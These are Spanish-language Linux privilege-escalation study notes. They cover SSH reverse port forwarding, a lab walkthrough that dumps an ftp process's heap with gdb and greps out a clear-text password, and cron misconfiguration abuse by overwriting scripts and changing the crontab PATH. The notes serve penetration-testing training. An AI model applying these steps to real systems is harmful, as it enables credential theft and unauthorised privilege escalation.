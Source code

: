 ###### Atacando puertos internos

Si se encuentra un servicio "interesante" que esta ejecutandose en puertos internos, y el exploit no funciona localmente, la solución es hacer uun port forwarded SSH

_ssh -R \<local-port>:127.0.0.1:<target-port\>\<username>@\<local-machine>_

##### Analizar la memoria de los servicios

Las credenciales pueden estar en memoria en texto claro, en el contexto de una aplicacion en ejecución

El acceso a "ese" espacio de memoria en concreto es solo posible si la "operacion" se realiza en el mismo contexto de usuario

###### Ejercicio de Explotación

 _Kali_ 

1. In command prompt type: msfconsole

2. In Metasploit (msf > prompt) type: use auxiliary/server/ftp

3. In Metasploit (msf > prompt) type: set FTPUSER user

4. In Metasploit (msf > prompt) type: set FTPPASS password321

5. In Metasploit (msf > prompt) type: run

_Linux VM_

1. In command prompt type: ftp [Kali VM IP Address]
2. In ftp, type: user
3. In ftp, type: password321
4. In ftp press ctrl-z
5. In command prompt type: ps -ef | grep ftp
6. Make note of the PID of the ftp process.
7. In command prompt type: gdb -p [FTP PID]
8. In GDB, (gdb) prompt, type: info proc mappings
9. From the output, note the start and end memory addresses of the “[heap]”
10. In GDB. (gdb) prompt, type: q
11. In GDB, (gdb) prompt, type: dump memory /tmp/mem \[Start Address] [End Address]
12. In GDB. (gdb) prompt, type: q
13. In command prompt type: strings /tmp/mem | grep passw
14. From the output, note the credentials in clear-text.

#### Bala de plata V: Atacando Cron

Configuraciones:

Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation.

If we can write to a program or script which gets run as part of a cron job, we can replace it with our own code.

PATH contiene o indica la ruta a los directorios en los cuales cron buscará el comando a ejecutar. Este path es distinto al path global del sistema o del usuario. El Path de contrab es por defecto /usr/
Una posibilidad es modificar la variable Path del fichero crontab para que busque determinado fichero en una ubicacion concreta
